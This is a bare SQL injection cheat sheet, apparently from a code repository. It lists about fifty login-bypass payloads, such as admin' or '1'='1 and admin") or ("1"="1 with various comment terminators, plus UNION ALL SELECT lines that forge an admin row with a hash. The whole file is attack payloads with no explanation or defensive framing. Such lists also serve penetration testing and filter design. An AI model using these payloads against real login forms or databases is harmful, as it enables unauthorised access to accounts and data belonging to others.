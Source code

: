 # sql_cheat_sheet
or 1=1

or 1=1--

or 1=1#

or 1=1/*

admin' --

admin' #

admin'/*

admin' or '1'='1

admin' or '1'='1'--

admin' or '1'='1'#


admin' or '1'='1'/*

admin'or 1=1 or ''='

admin' or 1=1

admin' or 1=1--

admin' or 1=1#

admin' or 1=1/*

admin') or ('1'='1

admin') or ('1'='1'--

admin') or ('1'='1'#

admin') or ('1'='1'/*

admin') or '1'='1

admin') or '1'='1'--

admin') or '1'='1'#

admin') or '1'='1'/*

1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

admin" --

admin" #

admin"/*

admin" or "1"="1

admin" or "1"="1"--

admin" or "1"="1"#

admin" or "1"="1"/*

admin"or 1=1 or ""="

admin" or 1=1

admin" or 1=1--

admin" or 1=1#


admin" or 1=1/*

admin") or ("1"="1

admin") or ("1"="1"--

admin") or ("1"="1"#

admin") or ("1"="1"/*

admin") or "1"="1

admin") or "1"="1"--

admin") or "1"="1"#

admin") or "1"="1"/*

1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
